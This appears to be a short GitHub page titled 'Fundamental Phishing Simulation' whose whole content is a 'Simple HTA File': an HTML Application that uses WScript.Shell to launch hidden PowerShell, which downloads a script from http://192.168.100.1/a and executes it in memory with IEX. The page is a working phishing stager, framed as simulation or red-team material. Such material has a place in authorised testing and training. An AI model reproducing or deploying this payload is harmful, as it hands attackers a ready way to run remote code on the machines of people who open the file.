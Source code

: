### Fundamental Phishing Simulation


### Simple HTA File
```
<html>
<script>	
    	var Data = "powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.100.1/a'));\"";
	var Value = new ActiveXObject("WScript.shell");
	Value.run(Data );
</script>
</html>
```
